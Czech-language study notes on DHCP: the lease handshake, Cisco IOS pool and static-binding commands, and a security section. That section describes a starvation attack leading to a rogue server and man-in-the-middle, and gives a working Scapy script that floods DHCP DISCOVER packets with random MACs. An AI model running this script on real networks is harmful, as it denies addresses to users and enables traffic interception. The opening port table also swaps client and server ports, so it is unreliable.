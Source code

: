 # DHCP - Dynamic Host Configuration Protocol

### Topika: Úvod, nastavení v IOS, security

## Úvod

|Klient|Port|
|---|---|
|Host|67|
|Server|68|

*DHCP* je protokol nacházející se na Síťové vrstvě. Zajišťuje nám aby nové zařízení v síti mohli fungovat. Jelikož jim automaticky přiděluje potřebné věci. Jeho předchůdci jsou Reverse ARP a Bootstrap protokol. 

#### Statické DHCP
- DHCP tabulka si uchovává přiřazenou IP adresu k MAC adrese, pomocí toho tak může mít zařízení pokaždé stejnou IP ikdyž se odpojí ze sítě. Využívá se pro servery. 

##### DHCP tabulka 
- Zde si server uchovává všechny přidělené adresy.

Ukládá se zde:
- Na jakém interface je host připojen.
- MAC adresa hosta.
- IP adresa hosta.
- Datum expirace adresy.
- Jméno hosta.

#### Přiřazení adresy
- probíhá 4 way handshakem.

> Host pošle DHCPDISCOVER na portu 68 na broadcast aby našel DHCP server
> 
> Server odpoví DHCPOFFER na portu 67 a nabídne adresu, hosta najde pomocí MAC adresy
> 
> Host pošle DHCPREQUEST na portu 68, žádá o nabídnutou IP adresu
> 
> Server odpoví DHCPACKNOWLEDGE na portu 67, server potvrzuje přiřazení adresy a zapisuje si ho do "poolu"

DHCP Přiřazuje hostům:
- IP adresu
- NTP (pro analýzu)
- Gateway
- DNS server (například Cloudflare - 1.1.1.1 nebo Google - 8.8.8.8)

## Nastavení DHCP na Switchi nabo Routeru s IOS

#### Základní konfigurace DHCP
```
SW(config)#ip dhcp pool NETWORK1                          //vytvoří pool se jménem 
SW(dhcp-config)#network 192.168.190.0 255.255.255.0       //nastaví adresní rozsah
SW(dhcp-config)#default-router 192.168.190.1              //Gateway adresa
SW(dhcp-config)#dns-server 1.1.1.1 8.8.8.8                //adresy DNS serverů (můžeme nastavit až 8 adres)
SW(dhcp-config)#lease 30                                  //pronájem adresy na 30 dní, formátje den hodina minuta (tedy třeba 0 0 10 = 10 minut)
```

#### Konfigurace Statického DHCP
```
SW(dhcp-config)#host 192.168.190.9 255.255.255.0          // adresa pro klienta spolu s maskou
SW(dhcp-config)#client-identifier 0100.1217.59b0.73       // MAC adresa před kterou je typ media, 01 je pro Ethernet a tečka se posouvá
```

#### Užitečné příkazy
```
SWITCH#show ip dhcp bindings                              // seznam přidělených adres
SWITCH#clear ip dhcp bindings                             // vymaže seznam
SWITCH#show ip dhcp conflicts                             // seznam konfliktů
SW#clear ip dhcp conflicts                                // vymaže seznam konfliktů
SW#show ip dhcp pool                                      // informace o poolu
SW#show ip dhcp server statistics                         // statistiky serveru
```

## DHCP security
- Pro síť je špatně nastavené DHCP hrozba.
- Důležitá je zde port security.
- Kontrolovat jaké zařízení se napojují do sítě.

#### Startvation attack
- Útočník zahlcuje tabulku pro volne hosty pomocí scriptu. Poté můžu začít hostovat vlastní DHCP server, jelikož původní bude plný noví hostové budou dostávat adresu od útočníkovo DHCP serveru. Jelikož DHCP přiřazuje i gateway tak útočník zde může dát svoji IP adresu a jednoduše získat Man in the Middle útok.

Python script: 
- pozor jaký interface používáte
- je potřeba mít nainstalovanou knihovnu scapy
```
#!/usr/bin/python3
from scapy.all import *

conf.checkIPaddr = False  #Disable IP address checking

#Building DISCOVER packet
#Making an Ethernet packet
DHCP_DISCOVER = Ether(dst='ff:ff:ff:ff:ff:ff', src=RandMAC(), type=0x0800) \
            / IP(src='0.0.0.0', dst='255.255.255.255') \
            / UDP(dport=67,sport=68) \
            / BOOTP(op=1, chaddr=RandMAC()) \
            / DHCP(options=[('message-type','discover'), ('end')])

#Sending the crafted packet in a loop using the "eth0" interface
sendp(DHCP_DISCOVER, iface='eth0',loop=1,verbose=1 )-
```

Pro hostování DHCP serveru = https://udhcp.busybox.net/
